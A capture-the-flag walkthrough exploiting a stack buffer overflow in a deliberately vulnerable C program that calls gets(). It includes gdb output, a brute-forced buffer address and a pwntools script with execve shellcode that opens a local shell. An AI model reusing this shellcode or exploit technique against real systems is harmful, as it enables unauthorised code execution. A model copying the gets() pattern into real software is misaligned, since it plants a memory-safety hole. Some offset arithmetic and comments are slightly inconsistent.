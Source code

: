 The exploit I have here will most lijeky not work if it is copy and pasted without reconfiguring it. Let's take a look at the source code...

```
#include <stdio.h>
#include <string.h>

void nothing()
{
	char* buf0[50];
	gets(buf0);
}

int main()
{
	printf("There, now you have less than nothing. Yet you still try. Some would recogmedn a psychologist. I recogmend natural selection\n");
	nothing();
}
```

So looking at this code, it looks pretty similar to the previous challenge. In fact it is pretty much just a copy and paste of the last challenge. However it is missing one thing that made our lives easy. It is no longer printing out the address of the buffer, so we will have to find that ourselves. Now there are a lot of different methods you could go about finding the address. However that address changes for things such as running at a different privilege level, and if it is in gdb. What we can do for this instance is we can look at the address in gdb. This won't be the exact address, however using that address as a base we should be able to brute force the actual address. Let me show you.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0000000000400536 <+0>:	push   rbp
   0x0000000000400537 <+1>:	mov    rbp,rsp
   0x000000000040053a <+4>:	sub    rsp,0x190
   0x0000000000400541 <+11>:	lea    rax,[rbp-0x190]
   0x0000000000400548 <+18>:	mov    rdi,rax
   0x000000000040054b <+21>:	mov    eax,0x0
   0x0000000000400550 <+26>:	call   0x400420 <gets@plt>
   0x0000000000400555 <+31>:	nop
   0x0000000000400556 <+32>:	leave  
   0x0000000000400557 <+33>:	ret    
End of assembler dump.
gdb-peda$ b *nothing+31
Breakpoint 1 at 0x400555
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b5_64/b5_64 
There, now you have less than nothing. Yet you still try. Some would recogmedn a psychologist. I recogmend natural selection
75395128
```

One wall of text later...

```
Breakpoint 1, 0x0000000000400555 in nothing ()
gdb-peda$ x/s $rbp-0x190
0x7fffffffdcc0:	"75395128"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x400555 in nothing; saved rip = 0x400570
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
 ```

So as you can see the address of the buffer is stored at 0x7fffffffdcc0. The offset we will need to reach the rip register is 408 (0x7fffffffde98 - 0x7fffffffdd00 = 408). If we were to hardcode that address into our exploit the exploit will work, however only when we run it in gdb under the same settings. However if you notice something with all of the subsequent addresses, the are stored in 16 byte increments. If the address that we saw from gdb servers as a rough estimate, then we should be able to move up and down from 0x7fffffffdcc0 untill we find an address that works. Here is a list of the addresses I went through, before I found one that worked.

```
0x7fffffffdcc0
0x7fffffffdcb0
0x7fffffffdca0
0x7fffffffdc90
0x7fffffffdc80
0x7fffffffdc70
0x7fffffffdc60
0x7fffffffdc50
0x7fffffffdc40
0x7fffffffdc30
0x7fffffffdc20
0x7fffffffdc10
0x7fffffffdcd0
0x7fffffffdce0
0x7fffffffdcf0
```

And then I found the address that worked for me, 0x7fffffffdcf0. Here is my exploit script with the address hard coded in (yes it is the same script from the last challenge with one line changed). Keep in mind that we have to adjust the offset to make room for the shellcode, so it will be 408 - 27 = 381.

```
#Import the pwntools library.
from pwn import *

#The process is like an actualy command you run, so you will have to adjust the path if your exploit isn't in the same directory as the challenge.
target = process("./b5_64")

#Just receive the first line, which for our purposes isn't important.
target.recvline()

#Hardcode in the address of the buffer
address = "0x7fffffffdcf0"

#Convert the string to a hexidecimal
address = int(address, 16)

#Pack the hexidecimal in little endian for 32 bit systems
address = p64(address)

#Store the shellcode in a variable
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

#Make the filler to reach the eip register
filler = "0"*381

#Craft the payload
payload = shellcode + filler + address

#Send the payload
target.sendline(payload)

#Drop into interactive mode so you can use the shell
target.interactive()
````

Now let's try out the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b5_64$ python exploit.py 
[+] Starting local process './b5_64': Done
[*] Switching to interactive mode
$ ls
Readme.md  b5_64  b5_64.c  core  exploit.py  in  out  peda-session-b5_64.txt
$ cat out
If you don't stop trying to leave, we can't have a celebration for you. Level Cleared!

```

And just like that we pwned the binary. 
